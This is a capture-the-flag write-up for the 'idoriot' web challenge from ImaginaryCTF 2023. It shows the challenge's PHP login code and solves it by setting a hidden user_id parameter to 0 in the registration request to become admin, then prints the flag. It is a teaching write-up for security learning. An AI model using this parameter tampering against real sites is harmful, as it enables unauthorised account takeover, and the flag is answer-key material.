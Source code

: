 ### Description  
>Some idiot made this web site that you can log in to. The idiot even made it
in php. I dunno.

Challenge name indicates an [IDOR](https://portswigger.net/web-
security/access-control/idor) vulnerability. There's no source code, so let's
investigate [the site](http://idoriot.chal.imaginaryctf.org)

## Recon  
We are immediately greeted by a login screen. I would normally try some
default creds, SQLi etc but based on the challenge name, I decide to skip
straight to user registration.

I register `cat:cat` and see a message `Welcome, User ID: 154308130`.

The source code is also displayed on-screen.  
```php  
session_start();

// Check if user is logged in  
if (!isset($_SESSION['user_id'])) {  
   header("Location: login.php");  
   exit();  
}

// Check if session is expired  
if (time() > $_SESSION['expires']) {  
   header("Location: logout.php");  
   exit();  
}

// Display user ID on landing page  
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin  
$db = new PDO('sqlite:memory:');  
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin  
if ($admin['user_id'] === $_SESSION['user_id']) {  
   // Read the flag from flag.txt  
   $flag = file_get_contents('flag.txt');  
   echo "<h1>Flag</h1>";  
   echo "

$flag

";  
} else {  
   // Display the source code for this file  
   echo "<h1>Source Code</h1>";  
   highlight_file(__FILE__);  
}  
```

Accordingly, our goal is to gain access to the admin's account. If our
`$_SESSION['user_id']` matches that of the admin, we get the flag.

## Solution  
Tried to MD5 the user ID to see if matches the session value:
`5b2deaedb34c1bbd66856710f647c1db`.  
```bash  
echo -n "154308130" | md5sum  
87cd5ed599b872262ff865945845cd71  -  
```

No match, tried to register another user `cat2:cat2` and get `Welcome, User
ID: 275541975` with a session id `ef64cdce8f1247feb73ceddf86027774`.

Checking the registration login request, the user ID is specified.  
```js  
username=cat2&password=cat2&user_id=275541975  
```

Tried sending the registration request to burp's repeater.  
```js  
username=cat3&password=cat3&user_id=0  
```

The flag is displayed.  
```txt  
ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}  
```

Original writeup (https://github.com/Crypto-
Cat/CTF/blob/main/ctf_events/imaginary_23/web/idoriot.md).
